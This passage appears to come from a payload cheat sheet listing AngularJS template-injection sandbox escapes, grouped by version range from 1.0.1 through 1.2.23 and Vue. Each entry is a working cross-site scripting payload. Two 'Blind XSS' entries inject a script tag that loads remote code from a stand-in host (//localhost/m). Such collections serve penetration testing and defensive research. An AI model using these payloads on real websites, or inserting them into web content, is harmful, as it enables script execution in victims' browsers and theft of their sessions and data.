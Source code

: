 ```javascript
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

AngularJS 1.2.19 - 1.2.23

```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

AngularJS 1.2.6 - 1.2.18

```javascript
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

AngularJS 1.2.2 - 1.2.5

```javascript
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

AngularJS 1.2.0 - 1.2.1

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

AngularJS 1.0.1 - 1.1.5 and Vue JS

```javascript
{{constructor.constructor('alert(1)')()}}
```


### Blind XSS

1.0.1 - 1.1.5 && > 1.6.0 by Mario Heiderich (Cure53)

```javascript
{{
    constructor.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```


Shorter 1.0.1 - 1.1.5 && > 1.6.0 by Lewis Ardern (Synopsys) and Gareth Heyes (PortSwigger)

```javascript
{{
    $on.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```
